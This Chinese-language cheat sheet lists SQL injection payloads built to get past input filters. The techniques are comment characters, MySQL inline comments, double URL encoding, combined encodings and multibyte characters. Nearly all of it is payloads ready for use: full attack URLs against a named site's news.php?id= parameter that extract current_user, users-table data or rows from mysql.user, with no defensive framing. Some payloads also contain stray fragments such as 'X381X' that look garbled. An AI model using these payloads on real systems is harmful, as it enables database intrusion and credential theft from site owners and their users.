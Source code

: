 ## 注释和编码绕过

### 注释符

```
# %23
-- 后面要加空格
/**/ 只加前半个也行
;%00 Nullbyte
` Backtick
```

```
SQL> 1+un/**/ion+se/**/lect+1,2,3 -- 空格
```

### 巧用注释和编码：

```
绕过：http://www.90jishuwang.com/news.php?id=0+div+1+union%23fooX381X%2F*bar%0D%0Aselect%23foo%0D%0A1%2C2%2Ccurrent_user
解析：
0 div 1 union#foo*/*/bar
select#foo
1,2,current_user
```

MySQL Inline Comments：

```
/*!12345select*//*!12345user*/ from mysql.user;
绕过：http://www.90jishuwang.com/news.php?id=1/*!12345!UnIoN*/SeLecT+1,2,3 --
```

### 双编码

多次解析：
%2527解析后是%27再解析是'

```
绕过：http://www.90jishuwang.com/news.php?id=1%252f%252aX396X/union%252f%252a /select%252f%252a*/1,2,3%252f%252a*/from%252f%252a*/users --
```

### 编码组合

```
过滤：http://www.90jishuwang.com/php-nuke/?/X401X*/union/**/select?
绕过：http://www.90jishuwang.com/php-nuke/?/%2A%2A/union/%2A%2A/select?
绕过：http://www.90jishuwang.com/php-nuke/?%2fX405X*%2funion%2f**%2fselect?
```

### 中文字符绕过

```
SQL> union/*%aa*/select
```

